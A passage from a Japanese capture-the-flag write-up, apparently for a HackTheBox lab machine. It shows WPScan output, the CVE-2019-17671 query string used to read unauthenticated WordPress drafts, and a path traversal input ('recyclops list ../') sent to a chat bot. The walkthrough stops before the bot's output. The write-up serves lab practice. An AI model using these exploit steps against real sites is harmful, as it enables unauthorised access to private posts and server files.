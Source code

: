[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |
 | [!] 32 vulnerabilities identified:
 |
省略
 |
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
省略
```  
認証なしで下書きを見る脆弱性(CVE-2019-17671)が存在しており、先ほどのコメントにもあった機密情報を見ることができそうである。  

### user  
footholdステップで見つけた脆弱性(CVE-2019-17671)を用いて、機密情報を探る。  

CVE-2019-17671はurlに下記を追加してアクセスすると認証なしで下書きが見えてしまうとのことである。    
```?static=1&order=desc```  

とりあえず下記をブラウザで開く。  
```http://office.paper/?static=1&order=desc```  

下書きが閲覧可能になったので読み進めると、チャットシステムへの登録リンクが見つかる。  
```http://chat.office.paper/register/8qozr226AhkCHZdyY```  

上記のリンクにアクセスするとロケットチャットの登録画面が表示される。  
とりあえず適当なユーザを作成してログインする。  

generalチャネルがあるのでそこに入ってみると、メンバーのチャットが見つかる。  

業務用のbotがあるみたいなので、botに対してDMで  
```recyclops help```  
と打ってみる。  

すると、(詳細は割愛するが)下記のようなコマンドが利用可能だとわかる。  
- ファイルの中身を表示するコマンド
 ```recyclops file test.txt```  

- どのようなファイルがあるかを表示するコマンド  
 ```recyclops list sale```  

listのコマンドでは内部的にlsを使っていそうなので、"../"を使ってみる。  
```recyclops list ../```  
すると下記の実行結果が得られる。  
```